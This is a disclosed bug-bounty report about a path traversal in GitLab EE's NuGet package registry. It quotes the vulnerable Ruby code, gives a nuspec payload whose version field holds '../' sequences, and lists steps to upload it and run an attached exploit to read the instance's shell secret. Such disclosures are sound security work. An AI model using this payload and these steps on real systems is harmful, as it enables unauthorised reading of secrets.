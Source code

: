 # Path traversal in Nuget Package Registry

## Report Details
- **Report ID**: 822262
- **URL**: https://hackerone.com/reports/822262
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-03-17T15:51:58.636Z
- **Disclosed**: 2022-06-07T14:16:20.534Z

## Reporter
- **Username**: saltyyolk
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary
There's a path traversal issue in Nuget package registry which was released to GitLab-EE recently. The issue allows an attacker to create any file with an extension “.nupkg” in the filesystem. By combining the bug with a race condition in Gitaly which I used several times before (#762421, #732330). It could finally be used to read sensitive files in a GitLab instance.

For some context, a large part of the exploit were explained in #762421, the npm registry issue. Here I will focus on the simple path traversal part which makes a little bit difference.

The root cause of the path traversal lies at `ee/app/services/packages/nuget/metadata_extraction_service.rb`
```
      XPATHS = {                                                               
        package_name: '//xmlns:package/xmlns:metadata/xmlns:id',               
        package_version: '//xmlns:package/xmlns:metadata/xmlns:version'        
      }.freeze 
...
      def extract_metadata(file)                                               
        doc = Nokogiri::XML(file)                                              
                                                                               
        XPATHS.map do |key, query|                                             
          [key, doc.xpath(query).text]                                         
        end.to_h 
```
It extracts the uploaded nupkg (which is in zip format) for the contained nuspec file (which is an XML). And then looks for attribute `id` and `version`. Then the extracted package_name(id), and package_version(version) will be concatenated into a new filename in `ee/app/services/packages/nuget/update_package_from_metadata_service.rb`
```                                                                      
        @package_file.transaction do                                           
          @package_file.update!(                                               
            file_name: package_filename,                                       
            file: @package_file.file                                           
          )      
...
      def package_filename                                                     
        "#{package_name.downcase}.#{package_version.downcase}.nupkg"           
      end    
```
So my payload is:
```                                                                  
  <?xml version="1.0" encoding="utf-8"?>                                       
  <package xmlns="http://schemas.microsoft.com/packaging/2013/05/nuspec.xsd">  
    <metadata>                                                                 
      <id>DummyProject.DummyPackage</id>                                       
      <version>../../../../../nyangawa</version>                                            
    </metadata>                                                                
  </package>                                                                   
```
name the file above as `dummy.nuspec` and zip it into `dummy.nupkg` and upload it through `PUT /api/v4/projects/#{id}/packages/nuget/` endpoint  will make GitLab to create a `nyangawa.nupkg` somewhere in the filesystem.

Then I wrote a script (I used in #762421) to combine this issue and the race in Gitaly. I could finally read any file I want in my GitLab instance.

### Steps to reproduce

1. Download the attached exploit.tar.gz and extract it.
2. Install some requirements by gem install faraday and gem install rubyzip
3. Edit exp.rb to update some url and credentials
4. Execute the exp.rb to watch the result of .gitlab_shell_secret of target GitLab instance.

### Examples
{F750878}

#### Results of GitLab environment info
```
root@localhost:/# gitlab-rake gitlab:env:info

System information
System:		
Proxy:		no
Current User:	git
Using RVM:	no
Ruby Version:	2.6.5p114
Gem Version:	2.7.10
Bundler Version:1.17.3
Rake Version:	12.3.3
Redis Version:	5.0.7
Git Version:	2.24.1
Sidekiq Version:5.2.7
Go Version:	unknown

GitLab information
Version:	12.8.7-ee
Revision:	2643fd87200
Directory:	/opt/gitlab/embedded/service/gitlab-rails
DB Adapter:	PostgreSQL
DB Version:	10.12
URL:		http://10.26.0.5
HTTP Clone URL:	http://10.26.0.5/some-group/some-project.git
SSH Clone URL:	git@10.26.0.5:some-group/some-project.git
Elasticsearch:	no
Geo:		no
Using LDAP:	no
Using Omniauth:	yes
Omniauth Providers: 

GitLab Shell
Version:	11.0.0
Repository storage paths:
- default: 	/var/opt/gitlab/git-data/repositories
GitLab Shell path:		/opt/gitlab/embedded/service/gitlab-shell
Git:		/opt/gitlab/embedded/bin/git
```

ps. I changed my username because of a lost bet, don't be strange :p

Best regards,
SaltyYolk

## Impact

Common arbitrary file read issue caused by path traversal similar to my previous reports.

## Attachments
- 2020-03-17-234802_649x700_scrot.png

